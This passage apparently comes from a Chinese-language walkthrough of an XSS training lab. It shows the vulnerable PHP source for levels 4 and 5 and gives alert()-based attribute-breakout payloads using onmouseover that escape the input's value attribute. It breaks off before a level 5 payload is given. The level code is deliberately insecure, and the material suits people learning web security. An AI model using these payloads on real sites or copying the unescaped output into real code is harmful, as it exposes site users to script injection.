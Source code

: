 闭合value='的单引号

> onmouseover事件会在**鼠标指针移动**到指定的对象上时触发事件发生。

`?writing=' onmouseover='alert(/xss/)'`

移动鼠标到输入框触发xss.

## level4

http://192.168.31.193:8080/level4.php?keyword=try%20harder!

```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str2=str_replace(">","",$str);
$str3=str_replace("<","",$str2);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level4.php method=GET>
<input name=keyword  value="'.$str3.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```

将前后**括号**替换为空，**双引号"**闭合

`" onmouseover="alert(/xss/)`

## level5

http://192.168.31.193:8080/level5.php?keyword=find%20a%20way%20out!

```php
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level5.php method=GET>
<input name=keyword  value="'.$str3.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```

对**<script和on**做了加下划线处理，**双引号"**闭合

**strtolower()函数**，他会把提交的所有字符转换为**小写**



测试做了什么处理
